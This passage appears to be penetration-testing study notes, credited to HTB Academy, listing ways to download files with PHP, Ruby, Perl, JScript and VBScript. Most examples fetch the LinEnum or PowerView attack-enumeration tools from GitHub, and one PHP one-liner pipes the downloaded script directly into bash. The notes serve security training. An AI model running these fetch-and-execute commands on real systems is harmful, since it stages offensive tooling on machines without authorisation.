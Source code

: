 - [File get contents module](https://www.php.net/manual/en/function.file-get-contents.php)
- [File put contents module](https://www.php.net/manual/en/function.file-put-contents.php)
- [fopen module](https://www.php.net/manual/en/function.fopen.php)
- `php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` PHP Download with File_get_contents()
- `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'` PHP Download with Fopen()
- `php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash` PHP Download a File and Pipe it to Bash

> Note: The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

### Ruby

- `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'` download a file

### Perl

- `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'` Download a file

### Javascript

```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

- On a win cmd `cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1` Download a File Using JavaScript and cscript.exe

> Source: HTB Academy using this [post](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068)

### VBScript

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
